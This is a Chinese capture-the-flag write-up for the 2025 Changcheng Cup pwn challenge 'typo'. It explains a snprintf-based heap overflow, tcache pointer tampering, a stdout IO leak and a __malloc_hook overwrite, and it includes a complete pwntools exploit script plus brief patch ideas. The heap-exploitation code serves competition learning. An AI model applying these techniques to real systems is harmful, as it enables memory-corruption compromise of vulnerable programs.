

# 长城杯2025 pwn-typo-先知社区

> **来源**: https://xz.aliyun.com/news/17271  
> **文章ID**: 17271

---

长城杯上午AWDP部分的一道pwn题

逆向分析后该程序功能比较简单，除了edit功能外其他功能比较常规，没有show功能以及相关的可利用输出，那么考虑打无泄漏或者是io leak



漏洞点在这里，感觉和之前搞过的一个2960栈溢出漏洞点很相似（CVE-2024-12987），同样是格式化字符串snprintf，一些bad byte可以用格式化字符串绕过

​

这里溢出利用的方式有两种

1:用snprintf参数解析错误，最多可以读入0x100个字节，同时可以用格式化字符串传递栈上数据(%s，%c)，但是末尾会自动补上null字节

2:snprintf先溢出堆块中的size部分，第二次溢出用read截断null字符

​

没有uaf首先考虑如何制造重合指针，这里可以利用tcache，，首先将堆块送入tcache中，进行溢出篡改next指针末尾，然后malloc两次后可得到一个重合指针，两个指针指向了同一个地址（当时做的时候搞错了，忘了可以用read避免多出的null，所以将目标堆块填充到了合适的位置）


接下来就是考虑如何泄露了，比较容易想到的办法就是io leak，至于地址则是用unsorted在tcache上面踩一个出来，操作如下：

首先篡改重合指针堆块的size，因为原来的size tcache已经被破坏无法使用，将其扩大到另一个size即可避免


然后将其先送入tcache，修改inuse位，key避免触发double free

等待接下来将其释放进unsorted


这样就拿到了地址


接下来只需要采用read溢出避免null，改掉末尾两字节去爆破stdout来进行io leak即可

​

泄露libc地址后就是常规的onegadget或者别的方式都行


完整的exp如下

```
from pwn import*
context.update(arch='amd64',os='linux',log_level='debug')
context.terminal=['qterminal','-e']
elf=ELF('./pwn')
libc=elf.libc

def myencode(payload):
    return payload.replace(b'\x00',b'%39$c')+b'\x00'

def add(idx,size):
    p.sendlineafter(">> ",'1')
    p.sendlineafter("dex",str(idx))
    p.sendlineafter("Size: ",str(size))

def delete(idx):
    p.sendlineafter(">> ",'2')
    p.sendlineafter("dex",str(idx))

def edit(idx,payload,data):
    p.sendlineafter(">> ","3")
    p.sendlineafter("dex",str(idx))
    p.sendlineafter("size of",payload)
    p.sendlineafter("say",data)

def exp():
    for i in range(7):
        add(i,0x80)

    add(8,0x80)#vuln 8->9
    add(9,0x80)#fuck-tcache-double p 
    add(31,0x20)#pad->read
    add(10,0x10)#vuln
    add(11,0x80)#fuck unsorted
    add(12,0x80)#fengshui
    add(13,0x10)#vuln
    add(14,0x80)#inused
    for i in range(5):
        delete(i)
    delete(12)    
    delete(9)
    payload=p64(0x80)
    payload=payload.ljust(0x88,b'a')
    payload+=p64(0x91)
    edit(8,myencode(payload),'man')
    add(12,0x80)
    add(9,0x80)#double 9-11 fuck! py 11

    payload=p64(0x80)*3
    payload+=p64(0x141)#size
    edit(10,myencode(payload),b'man')
    
    for i in range(31-7,31):
        add(i,0x130)
    for i in range(31-7,31):
        delete(i)
    add(23,0x130)#tcache
    delete(9)#unsorted 9-11 ->tcache
    
    payload=p64(0x20)
    payload+=b'a'*0x10
    payload+=p64(0x91)
    edit(13,myencode(payload),'man')#inused
    payload=p64(0x80)*3
    payload+=p64(0x141)
    payload+=p64(0)
    payload+=b'ishmael'
    edit(10,myencode(payload),'man')#key   
    delete(11)#->unsorted have p->stdout
    payload=p64(0x20)+b'a'*0x20+p64(0x21)+p64(0x100)
    edit(31,myencode(payload),'man')
    payload=b'a'*0x10+p64(0x141)+p16(0x26a0-0x10)
    edit(10,myencode(p64(0x10+8+2)),payload)
    add(22,0x130)
    add(21,0x130)#stdout-0x10
    payload=p64(0x10)*2+p64(0xfbad1887)+p64(0)*3
    p.sendlineafter(">> ","3")
    p.sendlineafter("dex",str(21))
    p.sendlineafter("size of",myencode(payload))
    addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))-0x7ffff7fc1980+0x7ffff7dd5000
    print("addr:"+hex(addr))
    p.sendline('ishmael')
    delete(8)
    delete(14)
    payload=p64(0x20)
    payload+=b'a'*0x10
    payload+=p64(0x91)
    payload+=p64(addr+libc.symbols['__malloc_hook']-0x10)
    edit(13,myencode(payload),'man')
    add(8,0x80)
    add(14,0x80)#last fuck
    payload=p64(addr+0xe3b01)
    edit(14,myencode(payload),b'a'*8+payload)
    add(16,0x80)
    p.interactive()

while(1):
    try:
        debug=1
        if debug:
            p=process('./pwn')
        else:
            p=remote('10.10.1.109',20052)
        exp()
    except:
        p.close()
```

​

应该还有更简单的方法

至于awdp fix有点抽象，nop snprintf，或者改malloc大小破坏堆结构，让exp利用失败
